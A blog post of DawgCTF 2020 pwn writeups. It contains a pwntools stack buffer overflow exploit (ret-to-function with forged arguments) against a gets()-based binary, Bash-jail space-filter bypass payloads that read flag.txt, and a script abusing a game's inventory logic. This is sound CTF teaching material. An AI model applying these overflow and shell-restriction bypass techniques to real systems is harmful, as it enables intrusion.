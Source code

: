 ```yaml
---
title: DawgCTF 2020: a few pwn writeups
slug: dawg-2020-pwn
date: 13/04/2020
---
```


Yesterday I spent a couple of hours on the [DawgCTF 2020](https://umbccd.io/).
I only had time to work on a few pwn tasks. The challenges were nothing special
but I wrote two [pwntools](https://github.com/Gallopsled/pwntools) scripts that
might be worth sharing.

All challenges are remote.


## Bof To The Top

This is a standard buffer overflow. Source code for the vulnerable binary was
given:

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

There is a comment that tells us how the binary was compiled. It is a 32-bit,
with no PIE and stack protection disable. We have no information regarding ASLR
but this challenge is not worth many point so we guess it is disabled.

The `get_audition_info` functions is the vulnerable one. Indeed `gets` is
insecure and leads to a stack-based buffer overflow. Lucky us, we will
not even have to inject a shellcode or anything in memory as we can use
the `audition` function that can `cat` the flag for us.

But there is something else! The `audition` function, that we plan to jump to,
receives two parameters. These two `int` variables must have a specific value,
otherwise `system` will not be called for us. One could think that we can
directly jump to the `system` call, that must be located at
`audition+something`, but this is not possible as `flag` will not be
initialized and `system(NULL)` will be called.

We definitely need to pass the `time` and `room` parameters. In order to do so,
we can prepare a payload that is similar to ret2libc. A standard ret2libc
payload looks like so: `AAAAAAAAAA...AAAAAA + SYSTEM_ADDR + RET_ADDR +
BIN_SH_ADDR`. First, there is enough data to reach `EIP`. Then, we overwrite
`EIP` with the address of the function we want to jump to. Finally, we add a
return address (a fake `EIP` save), and our parameters.

Here is the exploit script:

```python
from pwn import *


DEBUG = False

if not DEBUG:
    r = remote(
        host='ctf.umbccd.io',
        port=4000
    )
else:
    r = process([
        'gdb', '-q',
        '/macOS/bof',
    ])

audition = 0x08049182  # Found using nm (one could use pwn.elf too)
tiime = 1200  # First parameter
room_num = 366  # Second parameter

smash_after = 62  # Can be found using pwn.cyclic
payload = b'A' * smash_after + p32(audition) + b'LOOL' + p32(tiime) + p32(room_num)

if DEBUG:
    # r.sendline('b * 0x0804921d')
    r.sendline('r')

log.info(r.recvuntil('name?\n'))
r.sendline(payload)  # When the overflow happens

log.info(r.recvuntil('ing?\n'))
r.sendline('whocares')  # We don't care about the second buffer

if DEBUG:
    r.interactive()
else:
    log.success(r.recvline().decode())  # Outputs the flag
```

The offsets are strictly the same locally and remotly. Also, our guess turned
out correct and there is no ASLR. We get our flag immediately:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] b"Welcome to East High!\nWe're the Wildcats and getting ready for our spring musical\nWe're now accepting signups for auditions!\nWhat's your name?\n"
[*] b'What song will you be singing?\n'
[+] DawgCTF{wh@t_teAm?}
```


## Nash

This challenge is some kind of Bash jail. There is a `flag.txt` file in the
current directory. We have to find a way to read it **without using any
space**, as they are stripped from our input.

The first thing that came to my mind is the [`IFS` trick](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-forbidden-spaces):

```
nash> cat${IFS}flag.txt`
```
Unfortunately, `IFS` is not set, and the `{}` are also stripped. A few
Google searchs later, I found another payload:

```
nash> `<flag.txt`
/bin/bash: line 1: DawgCTF{L1k3_H0W_gr3a+_R_sp@c3s_Th0uGh_0mg}: command not found
```

I'm not a Bash guy but from what I understand, the `<` allows to retrieve
the content of `flag.txt`. Then, the backticks introduce a subcommand. Thus
Bash tries to run a command that is our flag.


## Tom Nook the Capitalist Raccoon

This is an Animal Crossing themed challenge. We can do some business with our
good friend Tom Nook, trading tarantulas for leaves... But the only thing that
we really want to buy is the flag. Which costs 420000 bells. That is a lot.

We will not be able to make that much money the legal way so let's be an
averrage Animal Crossing player and cheat.

Source code is not provided but we have the [compiled binary](https://github.com/toomanybananas/dawgctf-2020-writeups/raw/master/pwn/animal_crossing/animal_crossing).
To be honest, I did not even have to reverse it as I found the bug just by
playing with the remote. The actual C source code is [available here](https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/animal_crossing/animal_crossing.c)
if you want to make an extended study.

The bug is as follows:

* The game starts
* You buy an item (let's say a tarantula, as it is worth a lot)
* Your inventory is now full
* You sell the tarantula
* It is not removed from you inventory, but you get the bells
* You sell the tarantula
* It is not removed from your inventory, but you get the bells
* ...
* You sell any other item to free some inventory space
* You get the flag

```python
from pwn import *


r = remote(
    host='ctf.umbccd.io',
    port=4400
)

# Buy
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')

# A tarantula
log.info(r.recvuntil('\n').decode())
r.sendline('2')

# Inventory is now full

# Sell A LOT of tarantulas
for i in range(100):
    log.info(r.recvuntil('Choice: ').decode())
    r.sendline('1')
    log.info(r.recvuntil('\n').decode())
    r.sendline('5')

# You are now rich

# Sell random item to free some space
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

# Buy flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')
log.info(r.recvuntil('\n').decode())
r.sendline('6')

# Display inventory in order to display flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

r.interactive()
```

Tom Nook is not amused.

![Angry Tom Nook](assets/dawg-2020/nook.png)


## Wrapping up

Too bad I could not spend much more time on this CTF. The organizers
published [all the challenges](https://github.com/toomanybananas/dawgctf-2020-writeups)
for us to replay at home fortunately.
